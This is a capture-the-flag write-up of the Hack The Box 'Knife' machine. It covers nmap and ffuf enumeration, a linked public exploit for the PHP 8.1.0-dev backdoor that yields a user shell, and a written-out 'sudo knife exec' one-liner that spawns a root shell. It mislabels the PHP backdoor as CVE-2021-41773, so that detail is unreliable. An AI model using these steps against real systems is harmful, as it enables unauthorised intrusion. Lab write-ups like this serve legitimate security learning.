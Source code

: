 Knife - Hack The Box Write-Up

Difficulty: Easy
Author: ch4p
Enumeration
1. Nmap Scan

I started by scanning for open ports with nmap:

nmap -p- -sC -sV -oN nmap.txt <target-ip>

Results:

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.41

    Port 22 (SSH) → Standard SSH, no immediate entry point.

    Port 80 (HTTP) → A webpage with no visible content.

Web Enumeration

Visiting port 80, I found an almost empty page. Checking the source code also revealed nothing useful.

I then ran ffuf to look for hidden directories and subdomains:

ffuf -u http://<target-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://<target-ip> -H "Host: FUZZ.<target-ip>" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt

Both scans returned nothing useful.
PHP 8.1.0-dev Remote Code Execution

Checking the HTTP headers and response, I noticed the server was running PHP 8.1.0-dev, which is vulnerable to a backdoor RCE (CVE-2021-41773).

Googled for public exploits and found this:https://github.com/flast101/php-8.1.0-dev-backdoor-rce?tab=readme-ov-file

Using the script and setting up the listener I was able to gain user privilege.

Boom! I got a shell as Jamie.

Privilege Escalation

Once inside, I grabbed the user flag:

cat /home/jamie/user.txt

Then, I checked for sudo permissions:

sudo -l

Output:

User jamie may run the following command on knife:
    (ALL) NOPASSWD: /usr/bin/knife

The knife tool (part of Chef) allows command execution.
Root Privilege Escalation

I used knife to execute a root shell:

sudo knife exec -E 'exec "/bin/bash"'

Now, running whoami confirmed root access.

I then retrieved the root flag:

cat /root/root.txt

Summary

    Enumeration: Found PHP 8.1.0-dev running on port 80.

    Exploitation: Used the public RCE exploit to gain a shell as Jamie.

    Privilege Escalation: Found sudo access to knife and used it to get root.

Lessons Learned:

    Always check for software versions—they can reveal known vulnerabilities.

    Use sudo -l to find misconfigurations for privilege escalation.

    The knife tool is dangerous when misconfigured with sudo!
